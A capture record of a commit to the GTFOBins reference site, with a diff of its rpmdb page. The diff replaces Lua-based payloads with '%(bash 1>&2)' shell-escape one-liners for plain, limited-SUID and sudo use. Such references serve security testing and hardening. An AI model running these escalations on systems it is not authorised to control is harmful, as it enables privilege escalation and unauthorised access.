

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/rpmdb.md, in a window 1280 px wide. Shown: the top 845 px of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update rpmdb.md

```diff
--- a/_gtfobins/rpmdb.md
+++ b/_gtfobins/rpmdb.md
@@ -1,9 +1,9 @@
 ---
 functions:
   shell:
-    - code: rpmdb --eval '%{lua:posix.exec("/bin/sh")}'
+    - code: rpmdb --eval '%(bash 1>&2)'
   limited-suid:
-    - code: ./rpmdb --eval '%{lua:os.execute("/bin/sh")}'
+    - code: ./rpmdb --eval '%(bash 1>&2)'
   sudo:
-    - code: sudo rpmdb --eval '%{lua:posix.exec("/bin/sh")}'
+    - code: sudo rpmdb --eval '%(bash 1>&2)'
 ---
```
